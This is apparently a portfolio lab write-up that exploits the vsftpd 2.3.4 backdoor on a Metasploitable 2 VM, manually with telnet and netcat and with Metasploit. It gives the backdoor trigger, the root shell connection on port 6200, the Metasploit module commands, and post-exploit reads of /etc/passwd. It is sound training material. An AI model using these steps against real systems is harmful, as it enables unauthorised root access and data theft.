 
# Manual and Metasploit Exploitation of vsftpd 2.3.4 on Metasploitable 2

## 📌 Overview

This project covers two methods of exploiting the vsftpd 2.3.4 backdoor vulnerability (CVE-2011-2523) on Metasploitable 2. This specific vulnerability is due to a backdoor introduced by a malicious actor in this particular version of vsftpd.

- **Manual exploitation** using basic tools like `telnet` and `netcat`
- **Automated exploitation** using `msfconsole` (Metasploit Framework)

The goal was to gain a deeper understanding of the vulnerability by exploring both methods, ultimately achieving root shell access.

---

## 🛠 Lab Setup

| Component      | Details                                  |
|----------------|-------------------------------------------|
| Attacker VM    | Kali Linux (VirtualBox)                  |
| Target VM      | Metasploitable 2                         |
| Network Mode   | Host-Only Adapter                        |
| Tools Used     | `nmap`, `telnet`, `netcat`, `msfconsole`, `ping` |

---

## 🔍 Exploitation Method 1: Manual (Telnet + Netcat)

### 1. Identify Metasploitable IP Address

```bash
ifconfig
```

![Ping success](meta-ip.png)

---

### 2. Ping from Kali to Confirm Connection

```bash
ping [target IP]
```

![Ping success](ping-kali.png)

---

### 3. Scan Open Ports with Nmap

```bash
nmap -sS -sV [target IP]
```

Result: Port **21/tcp** running `vsftpd 2.3.4`

📸 ![Ping success](nmap-scan.png)

---

### 4. Trigger the Backdoor with Telnet

```bash
telnet [target IP] 21
```

Login:
```
USER test:)
PASS test
```

📸 ![Ping success](closed-by-foreign-host.png)

---

### 5. Connect to the Backdoor with Netcat

```bash
nc [target IP] 6200
```

Run post-exploit commands:
```bash
whoami
uname -a
cat /etc/passwd
```

📸 ![Ping success](root-access-change.png)

---

## ⚡ Exploitation Method 2: Using Metasploit

### 1. Start Metasploit Console

```bash
msfconsole
```

---
![Ping success](msf-1.png)

### 2. Search for the vsftpd Exploit

```bash
search vsftpd
```

Use the backdoor module:
```bash
use exploit/unix/ftp/vsftpd_234_backdoor
```

![Ping success](msf-root-access.png)

---

### 3. Set Target Information

```bash
set RHOST [target IP]
```

![Ping success](msf-root-access.png)

---

### 4. Run the Exploit

```bash
run
```

Successful output:
```
Found shell.
Command shell session 1 opened...
```

![Ping success](msf-root-access.png)

---

### 5. Verify Access

```bash
whoami
uname -a
cat /etc/passwd
```

![Ping success](msf-root-access.png)

---

## 🧠 Lessons Learned

### 🛡️ Impact and Remediation

This vulnerability allows for full system compromise, leading to unauthorized access to sensitive data and the ability to pivot to other systems within a network. To mitigate this, it is crucial to upgrade vsftpd to a patched version, implement proper network segmentation, and regularly patch systems.

- Manual exploitation teaches protocol-level logic and networking fundamentals
- Metasploit drastically simplifies the process but understanding the logic behind it is crucial
- Proper network configuration (e.g., NAT vs Host-Only) is critical
- Some backdoors only work **once per boot**, which requires timing or resets

---

## 📸 Screenshot Suggestions

- Metasploitable IP shown via ifconfig
- Successful ping from Kali
- Nmap scan showing port 21
- Telnet trigger session
- Netcat shell session
- Metasploit shell session
- Commands run post-exploit (whoami, etc.)

---

## ✅ Completion Checklist

| Task                          | Status |
|-------------------------------|--------|
| VM Setup                      | ✅     |
| Nmap Scanning                 | ✅     |
| Manual Exploit Triggered      | ✅     |
| Remote Root Shell (manual)    | ✅     |
| Metasploit Exploit Used       | ✅     |
| Root Access Verified          | ✅     |
| Screenshots Captured          | ✅     |
| Writeup Created               | ✅     |

---

## 🔚 Final Thoughts

Both approaches led to full system compromise. The manual method built foundational skills while Metasploit demonstrated how automation accelerates real-world penetration testing. This lab reinforced my understanding of network reconnaissance, vulnerability exploitation, and post-exploitation techniques, proving valuable for my offensive security skill set. This was a successful offensive security lab that will be used as a portfolio project.
